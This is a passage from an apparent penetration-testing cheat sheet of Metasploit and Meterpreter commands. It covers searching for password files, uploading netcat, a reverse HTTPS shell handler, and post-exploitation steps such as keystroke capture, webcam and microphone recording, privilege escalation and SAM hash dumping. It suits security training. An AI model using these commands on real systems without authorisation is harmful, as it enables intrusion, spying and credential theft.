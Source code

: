     -   Get user id from Meterpreter Shell  
        getuid

    -   Search for a file  
        search -f \*pass\*.txt

    -   Upload a file  
        upload /usr/share/windows-binaries/nc.exe c:\\\\Users\\\\Offsec

    -   Download a file  
        download c:\\\\Windows\\\\system32\\\\calc.exe /tmp/calc.exe

    -   Invoke a command shell from Meterpreter Shell  
        shell

    -   Exit the meterpreter shell  
        exit

-   Metasploit Exploit Multi Handler

    -   multi/handler to accept an incoming reverse\_https\_meterpreter
        payload  
        use exploit/multi/handler  
        set PAYLOAD windows/meterpreter/reverse\_https  
        set LHOST $ip  
        set LPORT 443  
        exploit  
        \[\*\] Started HTTPS reverse handler on https://$ip:443/

-   Building Your Own MSF Module

    -   mkdir -p ~/.msf4/modules/exploits/linux/misc  
        cd ~/.msf4/modules/exploits/linux/misc  
        cp
        /usr/share/metasploitframework/modules/exploits/linux/misc/gld\_postfix.rb
        ./crossfire.rb  
        nano crossfire.rb

-   Post Exploitation with Metasploit

    -   download Download a file or directory  
        upload Upload a file or directory  
        portfwd Forward a local port to a remote service  
        route View and modify the routing table  
        keyscan\_start Start capturing keystrokes  
        keyscan\_stop Stop capturing keystrokes  
        screenshot Grab a screenshot of the interactive desktop  
        record\_mic Record audio from the default microphone for X
        seconds  
        webcam\_snap Take a snapshot from the specified webcam  
        getsystem Attempt to elevate your privilege to that of local
        system.  
        hashdump Dumps the contents of the SAM database

-   Meterpreter Post Exploitation Features

    -   Create a Meterpreter background session  
        background
